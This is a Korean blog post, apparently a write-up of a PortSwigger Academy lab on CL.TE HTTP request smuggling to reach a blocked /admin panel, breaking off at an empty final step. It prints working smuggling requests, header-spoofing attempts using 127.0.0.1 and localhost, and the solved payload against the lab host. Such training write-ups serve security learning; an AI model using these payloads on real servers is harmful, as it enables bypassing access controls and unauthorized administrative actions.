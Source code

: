 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-10 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 - bypass front-end security controls
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. 
- Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- 이 문제부터는 Exploiting에 해당한다.  
- Exploiting 중에서 프론트 엔드 서버에서만 접근 제어를 하는 경우를 생각할 수 있다. (백엔드 서버는 아무런 체크 없이 프론트엔드 서버를 믿고 프론트엔드 서버로 부터 받은 HTTP요청을 처리한다.)
- 프론트 엔드 서버만 잘 속이면 특정 권한만 접근할 수 있는 곳, 예를들면 관리자 기능에 접근하는 요청을 스머글링해서 접근제어를 우회할 수 있다. 
- 예를 들면 다음과 같은 경우다. CL.TE 타입의 스머글링이 가능하다면 관리자 기능에 접근할 수 있다. 

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 관리자 패널(`/admin`)에 접근해 carlos 유저를 삭제하면 된다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
```

# 도전
1. 다음 페이로드로 스머글링이 되는 것을 확인했다. 다만 `HTTP/1.1 401 Unauthorized`응답이 돌아왔다. 페이지에는 `Admin interface only available to local users`가 쓰여있었다. 

![스머글링 가능 확인](/images/burp-academy-hrs-6-1.png)

2. Host헤더에 localhost를 지정하면 접근할 수 있을 것 같다. 그런데 스머글링할 요청에 Host헤더가 있으면 중복 헤더는 허용하지 않는다는 메세지가 돌아왔다. 

![Host헤더가 있으면 에러](/images/burp-academy-hrs-6-2.png)

3. 호스트헤더 인젝션 취약점에서 배웠던 Host헤더와 비슷한 역할을 하는 다양한 다른 헤더를 시도해봤지만 여전히 401응답이었다. 

```
X-Forwarded-Host: 127.0.0.1
Referer: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-HTTP-Host-Override: 127.0.0.1
Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```

![Host헤더 헷갈리게 하기 공격](/images/burp-academy-hrs-6-3.png)

4. 음... Host 헤더의 앞 뒤에 `\r` 이나 `\0` 등을 넣어서도 해봤지만 안된다. 답을 본다. 

5. 답을 보니 다음과 같이 스머글링 요청에 Content-Length 헤더와 바디부분이 있는 경우는 접근이 가능한 것을 알 수 있었다. (CL헤더 값이 0일 때는 안 동작한다.) 그런데 왜 동작하지는지는 모르겠다... CL헤더와 바디값이 추가된 것이 어떤 차이를 만들어낸 걸까?

```http
POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 5

x
```

![답을 보고 스머글링](/images/burp-academy-hrs-6-4.png)

6. 아.. 이유를 알 것 같다. Host헤더의 중복여부를 판별하는 것은 백엔드 서버일 것이다. 

백엔드 서버에서 보면 처리하는 요청이 첫번째 경우(공격 실패한 경우)는 이렇게 생겼을 것이다. (두번째 요청의 POST 부분이 합쳐져서 처리된다.) Host헤더가 두 개있으므로 중복되므로 백엔드 서버는 처리를 거부한다. 

```http
GET /admin HTTP/1.1
Host: localhostPOST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

성공하는 경우는 이렇게 생겼을 것이다. 스머글링 요청에 CL헤더와 바디부분이 있음으로 해서 POST 이후 부분이 HTTP요청의 바디로 처리된 것이다! 😲 Host헤더가 하나만 있으므로 백엔드 서버에서 정상적으로 처리된다. 

```http
GET /admin HTTP/1.1
Host: localhost
Content-Length: 5

POST / HTTP/1.1
Host: 0a9100540483340d858b121a00730099.web-security-academy.net
Cookie: session=Nj2JXsk6Y8Nzr8JMd2z0N18bLRglPmDs
...
```

7. 
